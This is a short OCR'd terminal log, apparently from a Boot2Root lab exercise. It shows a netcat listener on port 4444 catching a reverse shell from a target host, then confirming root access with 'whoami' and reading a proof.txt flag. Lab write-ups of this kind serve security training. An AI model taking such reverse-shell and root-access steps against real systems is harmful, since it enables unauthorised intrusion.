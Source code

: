 listening on [any] 4444 ...

connect to [192.168.45.201] from (UNKNOWN) [192.168.169.230] 46150

# whoami

root

# ls

# cd

# ls

proof.txt

# cat proof     

cat: proof: No such file or directory

# cat proof.txt

80ba0c566d8598739895252de4e0f324

  

Boot2Root